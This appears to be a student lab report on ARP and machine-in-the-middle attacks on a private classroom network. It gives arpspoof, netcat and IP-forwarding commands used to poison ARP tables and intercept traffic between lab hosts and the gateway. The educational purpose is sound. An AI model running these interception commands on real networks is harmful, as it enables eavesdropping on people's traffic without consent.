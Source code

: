Team:
- Maximilian Nowak
- Thomas Winter
- Simon Nenning

- Simons's mac: 6c:0b:84:3c:a3:ae Host C
- Thommy's mac: 6c:0b:84:3c:a4:47 Host A
- Maxl's mac: 6c:0b:84:3c:a3:de Host B
  <br>
- Simons's ip: 192.168.10.11 Host C
- Thommy's ip: 192.168.10.12 Host A
- Maxl's ip: 192.168.10.13 Host B

# 1 Reconnaissance
### - *What is the ip address of your PC ?*
  __192.168.10.13/24__
### - *What is the default gateway ?*
  __192.168.10.254__
### - *Over which physical interface are the PCs communicating with each other and the gateway*- *What is the ip address of your PC*
  __eno1__ 

# 2 ARP
### - *How is this table looking on your host ?*
  ![arp1](apr1.png)
### - *What changes in this table when pinging a host ?*
  __The host we pinged was added to the table__
  ![arp2](arp2.png)
### - *Use Wiresharkto trace ARP network traffic while pinging a host What can you determine about the functionality of ARP from this trace?*
  __Arp asks about the mac adress to this ip because we are in the same local lan__
  ![arp3](arp3.png)

# 3 ARP Poising
### - Find out how to start ``arpspoof`` to achieve the reuslt described above 
#### ``man arpspoof`` 
  
``$ arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]``

``$ arpspoof -i [eno1] -t [192.168.10.12] [192.168.10.13]``

### - Show the attack was succesful
__in this screenshot we see that host B now has the mac of host c__ 
 ![arp4](arp4.png)

__in this screenshot we see the spoofed response in detail__
 ![arp5](arp5.png)
__for further inspection the arp table with the spoofed mac to ip address__
![arp6](arp6.png)

# 4 Machine-in-the-middle

## A)

### -What can you see in Wireshark on host A ?
``$ nc -4 192.168.10.13 40000 ``
![mim_A](MIM_A.png)
### -What can you see in Wireshark on host B ?
``$ sudo nc -l 40000``
![mim1](mim1.png)
### What can you see in Wireshark on host C ?
__Nothing to see here__  
## B)

### - What are the necessary commands ?

#### - Host A
``$ nc -4 192.168.10.13 40000``
#### - Host B
`` $ sudo nc -l 40000``
#### - Host C
`` $ sudo arpspoof -i eno1 -t 192.168.10.12 192.168.10.13 -r``

## C)

### - What can you see in Wireshark on host A ?
![compA](compA.png)
### - What can you see in Wireshark on host B ?
![compB](compB.png)
### - What can you see in Wireshark on host C ?
![compC](compC.png)

## D) 
#### - Host A
``$ curl neverssl.com``
__because we want to see the traffic__
#### - Host B
__nothing to do here__ 
#### - Host C
For enabling the packet forwarding
`` $ sysctl -w net.ipv4.ip_forward=1 ``
then we should reboot
`` $ sudo reboot ``
Then enable the arpspoof with forwarding
`` $ sudo arpspoof -i eno1 -t 192.168.10.12 192.168.10.254 -r``

#### Host A wireshark 
![a_wireshark](httpCurl.png)

__https curl__
![a_wireshark](httpsCurl.png)

#### Host C wireshark 
![m](MITM-Punkt-D-Host-C.png)
![m](MITM-Punkt-D-Host-C-Terminl.png)